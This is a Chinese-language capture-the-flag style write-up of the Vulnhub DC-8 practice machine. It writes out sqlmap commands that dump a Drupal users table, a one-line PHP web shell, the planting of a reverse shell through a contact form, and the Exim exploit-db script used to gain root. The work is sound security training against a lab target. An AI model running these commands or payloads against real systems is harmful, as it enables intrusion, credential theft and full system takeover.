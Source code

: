```yaml
---
title: DC-8
tags:
  - Vulnhub
  - DC-8
categories: 
  - 渗透靶机训练
description: Sql injection and exim LPE.
excerpt: Sql injection and exim LPE.
typora-root-url: DC-8
abbrlink: 42745
date: 2021-04-02 18:21:02
---
```


> 题外话：这是第一个我自己完全没有搜索过WP的靶机，可以说从信息收集到最终拿到Root权都没有怎么参照过别人的做法，可能是这个靶机简单了，也可能是自己水平提升起来了，加油！(ง •_•)ง

# DC-8

## 基础信息收集

NMAP Result：

![image-20210402182353812](image-20210402182353812.png)

Nikto Result：

![image-20210402182504024](image-20210402182504024.png)

可以看到Nikto已经把Web App类型给找到了，Drupal 7，上Droopescan：

![image-20210402182643989](image-20210402182643989.png)

## sql注入

本想一把梭，结果：

![image-20210402182740947](image-20210402182740947.png)

好像没有，打开网页看看：

![image-20210402182816772](image-20210402182816772.png)

象征性地测试一下SQL注入：

![image-20210402182912601](image-20210402182912601.png)

> 框架中存在sql注入的可能性我感觉其实很低，这里也只是顺手测试了一下，没想到居然真的存在注入。

sqlmap直接一把梭：

```bash
sqlmap -u http://192.168.145.141/?nid=1 --dbms MySQL --dbs
```

![image-20210402183059789](image-20210402183059789.png)

```bash
sqlmap -u http://192.168.145.141/?nid=1 --dbms MySQL -D d7db --tables
```

![image-20210402183143517](image-20210402183143517.png)

```bash
sqlmap -u http://192.168.145.141/?nid=1 --dbms MySQL -D d7db -T users --dump
```

![image-20210402183228632](image-20210402183228632.png)

于是，**john**暴力一下：

![image-20210402183330178](image-20210402183330178.png)

这个hash是属于用户john的。

## 反弹shell

登录Web APP，找找哪里能执行PHP代码，最终在Contact Us的WebForm的Form Setting中找到了：

![image-20210402183527992](image-20210402183527992.png)

> 一开始是直接写的\<?php system(\$_GET['cmd']); ?\> ，报错system function not defined，就干脆换Kali内置的WebShell了。

然后用Kali的WebShell复制粘贴上去该Format为PHP Code，可以在这个目录下找到：

```bash
/usr/share/webshells/php
```

![image-20210402184323557](image-20210402184323557.png)

使用该shell注意修改这两个值：

![image-20210402184352508](image-20210402184352508.png)

在Contact Us随便填然后submit，成功拿到反弹shell：

![image-20210402184529802](image-20210402184529802.png)

## 提权

接下来就是提权了，看一下内核利用：

![image-20210402184625793](image-20210402184625793.png)

内核无法利用，查看sudo：

![image-20210402184645899](image-20210402184645899.png)

要密码，无法利用，看一下特殊权限文件：

![image-20210402184734113](image-20210402184734113.png)

> 其实也想过用最近的sudo漏洞来提权，但是：
>
> ![image-20210402185048830](image-20210402185048830.png)

从上到下都依次搜索了一下提权，最终确认exim可提权，exim版本：

![image-20210402185217037](image-20210402185217037.png)

![image-20210402185328535](image-20210402185328535.png)

把利用的shell脚本拷贝到靶机，然后下一步提权：

```bash
# Kali
sudo cp /usr/share/exploitdb/exploits/linux/local/46996.sh exp.sh
# Remote Machine
cd /tmp
scp zhuhan@192.168.145.130:/home/zhuhan/Vulnhub/DC-8/exp.sh exp.sh
```

![image-20210402185702314](image-20210402185702314.png)

给脚本赋权：

```bash
chmod 777 exp.sh
```

![image-20210402185751381](image-20210402185751381.png)

出现了问题，是换行符引起的，用sed把换行符清理一下：

```bash
sed -i 's/\r//' exp.sh
```

![image-20210402185916032](image-20210402185916032.png)

提权失败了，陷入沉思，看了下脚本，发现还有第二种用法：

![image-20210402190003820](image-20210402190003820.png)

用第二种方法看看：

![image-20210402190045092](image-20210402190045092.png)

成功提权！

拿到最终的Flag：

```bash
cat /root/*flag*
```

![image-20210402190141268](image-20210402190141268.png)

成就感满满~~(●ˇ∀ˇ●)